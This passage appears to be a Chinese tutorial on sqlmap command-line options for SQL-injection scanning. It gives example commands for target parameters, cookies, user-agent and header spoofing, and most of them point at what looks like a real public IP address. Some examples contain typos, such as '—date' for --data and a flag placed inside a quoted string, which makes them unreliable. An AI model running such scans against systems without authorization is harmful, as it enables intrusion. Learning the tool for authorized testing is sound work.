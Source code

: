 1. ##### -c sqlmap.conf ：使用配置文件进行扫描 (sqlmap.conf与sqlmap.py 在同一目录)

> **python sqlmap.py -c sqlmap.conf**

1. ##### -u “URL” ： 对于这种写法，加*号扫描

> **python sqlmap.py -u “http://target_url/param1/value1\*/param2/value2“**

## 四.配置目标参数

1. ##### -p ：指定要扫描的参数

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1&username=admin&password=123“ -p “username,id”**

1. ##### —skip： 排除指定的扫描参数

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1&username=admin&password=123“ —skip “username,id”**

1. ##### —data： 指定扫描的参数，get/post都适用

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1&username=admin&password=123“ —date=”username=admin&password=123”**

1. ##### —param-del：改变分隔符，默认是&，因为有些网站不实用&传递多个数据。

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1&username=admin&password=123“ —date=”username=admin;password=123” —param-del=”;”**

1. ##### —cookie ：使用cookie的身份认证

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —cookie=”security=low;PHPSESSID=121123131”**

1. ##### —drop-set-cookie： 有时候发起请求后，服务器端会重新Set-cookie给客户端，SQLmap默认会使用新的cookie，这时候可以设置此参数，表示还是用原来的cookie。

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —cookie=”security=low;PHPSESSID=121123131 —-drop-set-cookie”**

1. ##### —user-agent ：使用浏览器代理头

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —user-agent=”aaaaaaaaa”**

1. ##### —random-agent： 使用随机的浏览器代理头

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —random-agent**

1. ##### —host ：指定主机头

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —host=”aaaaa”**

1. ##### —referer=”aaaaaa” ： 指定referer头

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —referer=”aaaaaa”**

1. ##### —headers ：有些网站需要特定的头来身份验证

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —headers=”host:aaaa\nUser-Agent:bbbb”**

1. ##### —method ：指定请求方式，还有POST
